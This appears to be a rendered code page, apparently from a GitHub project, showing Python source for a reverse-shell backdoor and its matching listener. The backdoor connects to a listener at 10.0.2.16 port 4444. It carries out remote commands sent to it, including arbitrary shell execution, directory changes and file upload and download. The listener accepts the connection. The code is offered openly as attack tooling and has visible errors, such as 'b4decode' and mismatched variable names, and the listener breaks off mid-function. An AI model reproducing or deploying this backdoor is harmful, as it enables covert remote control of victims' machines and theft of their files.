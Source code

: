 ```
	def write_file(self, path, content):
		with open(path, "wb") as file:
			file.write(base64.b4decode(content))
			return "[+] Upload Successful!"
		
	def run(self):
		connection.send("\n[+] Connection Established !!\n")

		while True:
			received_command = self.receive_json()
			
			try:
				if received_command[0] == "exit":
					self.connection.close()
					exit()
				elif received_command[0] == "cd" and len(received_command) > 1:
					command_result = self.change_working_directory(received_command[1])
				elif received_command[0] == "download":
					command_result = self.read_file(received_command[1]).decode()
				elif received_command[0] == "upload":
					command_result = self.write_file(command[1], command[2])
				else:
					command_result = self.execute_system_command(received_command).decode()
					
			except Exception:
				command_result = "[-] Error occured during command execution."
				
			self.send_json(command_result)

		connection.close()

target_ip = "10.0.2.16"
port_no = 4444

try:
	backdoor_obj = Backdoor(target_ip, port_no)
	backdoor_obj.run()
except Exception:
	sys.exit()
```

```
#!/usr/bin/env python

# listener.py

import socket, json, base64

class Listener:
	def __init__(self, ip, port):
		listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
		listener.bind((ip, port))
		listener.listen(0)
		print("\n[+] Waiting for incoming connections ...")
		self.connection, address = listener.accept()
		print("\n[+] Connection established with " + str(address))
		
	def send_json(self, data):
		json_data = json.dumps(data)
		self.connection.send(json_data.encode())
		
	def receive_json(self):
			while True:
```